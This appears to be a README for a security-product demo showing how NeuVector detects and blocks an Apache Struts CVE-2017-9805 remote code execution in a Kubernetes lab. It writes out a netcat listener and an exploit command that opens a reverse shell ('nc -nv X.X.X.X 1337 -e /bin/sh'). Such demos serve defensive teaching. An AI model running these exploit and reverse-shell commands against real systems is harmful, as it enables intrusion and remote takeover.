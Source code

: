 # Remote shell - struts exploit

This demo creates a remote shell using the Apache Struts CVE-2017-9805 Exploit

## Prep
make sure you have the following two variables set in  your `terraform.tfvars`.
```
install_orders     = true
```

The run
```
terraform apply
```

Make sure that you are using a `kubeconf` file that have access to default namespace in the demo cluster, you could use the `kubeconf` created when you ran the `terraform apply` command·
```
export KUBECONFIG=$(pwd)/kubeconf
```

## Demo
1. login to the super-app application, the link to the web app is provided in the `terrarom output`, and generate some traffic by refreshing the page, create a order, delete an order.

2. validate the policy group `nv.struts-orders.default` processes and network rules

3. put the policy group `nv.struts-orders.default` in `protect mode`

4. connect to the client with ssh (see connection string in terraform output) and start a nc process to act as reverse shell
```
nc -lvp 1337

```

5. in a second terminal, ssh to the client (see connection string in terraform output) and execute the attack payload. The exact command is written to `~/struts1.sh` and can be executed with
```
sh struts1.sh
```

6. Look in the Neuvector security events how the Struts RCE is blocked

7. Put the policy group `nv.struts-orders.default` in `monitor mode` and execute the rce payload again
```
sh struts1.sh
```
notice how the orders workload connects to the reversed shell and execute some commands there, like `whoami` `ls -l`, etc...

8. Look in the Neuvector security events how Neuvector now warns about different violations on the security policy, each warning is one layer of protection so even if this was a zero day the other warnings would block the attempt in protect mode.

5. open a terminal and create a reverse shell in the kali pod
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- nc -lvp 1337
```

6. open another terminal and execute the RCE payload in the kali workload
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- bash
python3 /payloads/struts-pwn2.py --exploit --url 'http://URL/super-app/orders/3' -c 'nc -nv X.X.X.X 1337 -e /bin/sh'
```
where `X.X.X.X` is the IP to the kali service you got in step 4
and the URL is the HOSTS of struts-orders ingress `kubectl get ingress struts-orders`

7. In the recerse shell type some commands, like prove you are root with `whoami`

8. Put the policy group `nv.struts-orders.default` in protect mode and see that it is now protected and it's no longer possible to execute commands in the reversed shell
